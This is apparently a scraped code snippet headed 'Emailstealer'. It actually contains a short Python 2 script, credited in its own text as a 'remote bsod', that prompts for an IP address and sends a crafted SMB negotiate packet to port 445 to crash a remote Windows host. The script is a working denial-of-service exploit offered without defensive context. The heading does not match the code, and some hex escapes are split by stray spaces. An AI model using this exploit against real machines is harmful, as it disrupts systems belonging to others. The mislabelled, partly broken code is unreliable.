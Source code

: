 Emailstealer
============
#!/usr/bin/python

from socket import socket
print ' remote bsod coded by Sepehr Azizi '
ip=raw_input("  : " ) 

host = ip, 445
buff = (
"\x00\x00\x00\x90" # Begin SMB header: Session message
"\xff\x53\x4d\x42" # Server Component: SMB
"\x72\x00\x00\x00" # Negociate Protocol
"\x00\x18\x53\xc8" # Operation 0x18 & sub 0xc853
"\x00\x26"# Process ID High: -->  normal value should be "\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\ xff\xfe"
"\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\ x45\x54"
"\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\ x20\x31"
"\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\ x30\x00"
"\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\ x20\x57"
"\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\ x31\x61"
"\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\ x02\x4c"
"\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\ x20\x4c"
"\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\ x32\x2e"
"\x30\x30\x32\x00"
)
s = socket()
s.connect(host)
s.send(buff)
s.close()
